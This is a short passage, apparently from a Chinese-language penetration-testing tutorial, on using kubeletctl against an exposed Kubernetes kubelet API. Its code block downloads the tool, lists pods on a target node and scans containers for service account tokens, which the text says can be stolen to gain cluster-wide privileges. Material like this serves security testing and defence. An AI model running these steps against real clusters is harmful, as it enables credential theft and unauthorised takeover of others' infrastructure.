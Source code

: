 ![图片](assets/1711471298-f2c4186a39daad68781aac2a024778c5.webp)       kubeletctl 是一个用于与 kubelet API 交互的命令行工具，可以通过 kubeletctl 执行命令获取 Node 权限。从 Node 节点窃取高权限服务账户 token，使用服务账户向 API Server 进行验证，从而获取集群权限。

```plain
wget https://github.com/cyberark/kubeletctl/releases/download/v1.11/kubeletctl_linux_amd64
chmod 777 kubeletctl_linux_amd64
mv ./kubeletctl_linux_amd64 kubeletctl
#列出 kubelet 的所有 pod
./kubeletctl pods -i --server 192.168.17.132
#搜索容器里面的 Service Account
./kubeletctl scan token -i --server 192.168.17.132
```
